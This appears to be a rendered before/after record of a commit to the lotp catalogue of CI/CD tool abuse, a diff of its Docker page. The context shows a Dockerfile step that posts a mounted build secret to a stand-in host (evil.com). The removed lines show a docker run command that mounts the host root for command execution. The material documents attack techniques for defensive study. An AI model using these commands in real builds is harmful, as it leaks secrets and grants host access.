

Before and after one commit to boostsecurityio/lotp, a Jekyll site: the page built from _tool/docker.md, in a window 1280 px wide, cut to the strip 0-1039 px from the top of the page. Shown: the whole strip, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
remove injection from GTFOBins

````diff
--- a/_tool/docker.md
+++ b/_tool/docker.md
@@ -33,11 +33,3 @@
 RUN --mount=type=secret,id=<secret_name> \
     curl -X POST -d "@/run/secrets/<secret_name>" http://evil.com
 ```
-
-## `docker run`
-
-If we have control over the docker arguments, we can run command directly, see [GTFOBins](http://gtfobins.github.io/gtfobins/docker/).
-
-```sh
-docker run -v /:/mnt --rm -it alpine chroot /mnt <cmd>
-```
````
